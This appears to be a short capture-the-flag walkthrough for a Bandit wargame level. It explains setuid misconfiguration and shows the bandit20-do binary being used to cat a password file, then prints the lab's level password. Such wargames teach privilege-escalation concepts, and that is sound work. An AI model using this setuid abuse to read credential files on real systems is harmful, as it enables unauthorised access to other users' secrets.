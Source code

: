 Well a misconfigured setuid program could be disastrous as it could give allow privilege escalation from limited account to root access. [Root-me.org](https://www.root-me.org/en/Challenges/App-Script) has a few great examples on how to exploit it. Another interesting read is [nmap's interactive mode](https://gist.github.com/dergachev/7916152).

Alright, let's see what's the setuid program does.

```console
bandit19@bandit:~$ ls -l
total 8
-rwsr-x--- 1 bandit20 bandit19 7296 May  7  2020 bandit20-do
bandit19@bandit:~$ ./bandit20-do
Run a command as another user.
  Example: ./bandit20-do id
bandit19@bandit:~$ ./bandit20-do cat /etc/bandit_pass/bandit20
GbKksEFF4yrVs6il55v6gwY5aVje5f0j
```

So in short this was a misconfigured `setuid` binary which allowed us to elevate and execute commands as the user bandit20. In turn, the file `/etc/bandit_pass/bandit20`where the password is stored  is owned by user bandit20 so we have full rights to read it via `cat`.

> **Username:** bandit20
> **Password:** GbKksEFF4yrVs6il55v6gwY5aVje5f0j

---